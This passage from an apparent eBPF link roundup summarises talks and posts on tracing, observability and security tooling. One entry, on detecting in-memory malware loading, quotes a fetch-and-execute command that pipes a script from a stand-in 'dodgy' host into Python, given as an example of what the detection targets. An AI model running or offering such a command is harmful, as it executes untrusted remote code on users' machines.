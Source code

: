
* [_Debugging QUIC with H2O and QLog_](https://www.fastly.com/blog/debugging-quic-with-h2o-and-qlog),
  from Toru Maesaka.  
  The H2O HTTP server deployed by Fastly has a built-in event tracing
  infrastructure, powered by eBPF or DTrace depending on the platform. This
  post is not really about eBPF, but it presents an interesting use case of
  eBPF with USDT (probes for user space applications) to adapt QLog to the H2O
  server and get logs to debug and improve QUIC, a network protocol implemented
  in user space.


* [_eBPF & the future of osquery on Linux_](https://medium.com/fleetdm/ebpf-the-future-of-osquery-on-linux-c9f33726e84d) (video),
  from Zach Wasserman.  
  Osquery has been relying on the Audit subsystem in Linux to provide system
  visibility, which is powerful but comes with some drawbacks. For example, it
  supports a single consumer, making osquery conflict with the auditd daemon,
  and it lacks awareness of containers. eBPF can be used since osquery 4.6.0 as
  an alternative backend to collect data, circumventing these issues and coming
  with “a potential to dramatically increase scope of observability”.


* [_eBPF Tools: An Overview of Falco, Inspektor Gadget, Hubble and Cilium_](https://thenewstack.io/ebpf-tools-an-overview-of-falco-inspektor-gadget-hubble-and-cilium/),
  from Lucas Severo Alves.  
  Here is an introduction to each of the four eBPF-based tools mentioned in the
  title, accompanied with example use cases. All these tools focus on
  cloud-native environments, so this post provides a good overview of the eBPF
  landscape in the cloud, and of the different issues it addresses in terms of
  security, tracing, visibility, and networking.


* [_Datadog On eBPF_](https://www.youtube.com/watch?v=58KtGtpn0_g) (video),
  from Lee Avital, Guillaume Fournier and Ara Pulido.  
  Various aspects of eBPF are covered in this presentation. After introducing
  the basics, Datadog discusses technical details related to their workflow: Is
  it better to guess the offset of kernel structures or to rely on runtime
  compilation? They also describe two of their use cases for eBPF, network
  monitoring and runtime security.


* [_A Beginner's Guide to eBPF with Go_](https://web.archive.org/web/20210216233137/https://files.gotocon.com/uploads/slides/conference_39/1688/original/Beginners%20guide%20to%20eBPF%20with%20Go.pdf) (PDF),
  from Liz Rice.  
  Learn how to program with eBPF and Go with this accessible tutorial. After a
  reminder of the basics of eBPF, this presentation focuses on a simple tracing
  example with bpftrace. Then it explains how to write a first “Hello, World!”
  program with eBPF and the libbpfgo Go bindings for the libbpf C library,
  before showing how to recreate the bpftrace command previously introduced.


* [_Using eBPF to uncover in-memory loading_](https://blog.tofile.dev/2021/02/15/ebpf-01.html),
  from Pat H.  
  Tracing with eBPF can be adapted to nearly any use case. In this post,
  programs are attached to trace the calls to `dup2()`, `write()` and `read()`,
  in order to detect when two process are sharing information through a bash
  pipe (`|`). The objective of the experiment is to detect commands constructed
  like this: `curl https://dodgy.com/loader.py | python -`, where a rogue
  process attempts in-memory loading of a malware. The post contains a
  refresher on how writing to and reading from pipes work on Linux, making it
  easy to understand and follow where the eBPF programs are attached.
